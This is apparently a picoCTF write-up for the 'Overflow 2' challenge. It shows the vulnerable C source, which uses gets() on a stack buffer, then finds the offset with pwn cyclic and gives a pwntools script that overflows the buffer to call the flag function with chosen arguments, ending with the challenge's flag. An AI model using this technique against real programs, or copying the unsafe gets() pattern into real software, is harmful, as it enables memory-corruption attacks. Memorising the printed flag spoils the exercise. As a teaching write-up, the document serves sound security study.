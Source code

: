 # Overflow 2 (Binary)

![title](images/title.png)

Source:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Looks like we need to overflow the stack, reroute to the flag function and provide two arguments in order to print the flag. Lets start by finding the buffer required to control EIP

```bash
chmod +x vuln
pwn cyclic 300 | strace ./vuln
```
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=***0x62616177***} ---
+++ killed by SIGSEGV +++
Segmentation fault
```bash
pwn cyclic -l 0x62616177
```
***188***

Now we can write our script using the buffer + flag function address + return address(can be any 8 bytes) + arg1 + arg2

```python
#!/usr/bin/env python

from pwn import *

#setup process/elf binary
p = process('./vuln')
e = ELF('./vuln')
context.log_level = 'error'

#get addresses and args
flag = e.symbols['flag']
arg1 = 0xDEADBEEF
arg2 = 0xC0DED00D
buf = 188

#build payload
payload = ''
payload+= 'A'*buf
payload+= p32(flag)
payload+= 'BBBB' #return address does not matter
payload+= p32(arg1)
payload+= p32(arg2)

#send payload and print flag
p.sendline(payload)
sleep(1)
print p.recv()
```

Now we just need to copy our script to a local tmp folder on the pico servers and run it in the same directory as vuln

<details>
	<summary>Flag</summary>

picoCTF{arg5_and_r3turn5ce5cf61a}
</details>